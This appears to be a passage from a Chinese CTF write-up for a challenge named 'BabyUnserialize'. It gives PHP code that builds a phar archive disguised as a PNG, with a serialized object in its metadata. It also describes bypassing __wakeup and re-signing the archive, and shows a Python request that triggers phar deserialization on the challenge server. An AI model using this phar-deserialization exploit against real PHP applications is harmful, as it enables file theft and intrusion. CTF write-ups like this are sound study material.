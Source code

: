过了

---

### BabyUnserialize

`.checkmime.php.swp` 泄露， 获得源代码，是个phar反序列化，查资料可以知道phar包没法直接改，末尾还有签名，需要重新签名才可以成功解析

构建一个图片文件开头的phar包，把 `Main` 放到 `metadata` 里面  
注意要在 `php.ini` 里面把 `phar.readOnly` 关掉 

```php
<?php
class tooYoung{
  protected $naive="reporter";
}
class Main {
  public $file="/flag";
}

$phar = new Phar('text.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setSignatureAlgorithm(Phar::MD5);

$img = file_get_contents('./2.png');

$phar->setStub($img.'<?php __HALT_COMPILER(); ? >');

$object = new Main;
$phar->setMetadata($object);
$phar->stopBuffering();
?>
```

然后修改序列化字符串以跳过 `__wakeup` ，之后重新签名，签名格式见[php官网](https://www.php.net/manual/en/phar.fileformat.signature.php)，然后上传，再用 `checkmime.php` 解析，反序列化成功。

```python
import requests

print(requests.post('http://ctf.metasequoia.tk:25323/checkmime.php?reporter=O:8:"tooYoung":1:{s:8:"\x00*\x00naive";s:8:"reporter";}', data={
    'name': "phar://./uploads/09b8cd39aa.png",
    'submit': ''
}).text)
```
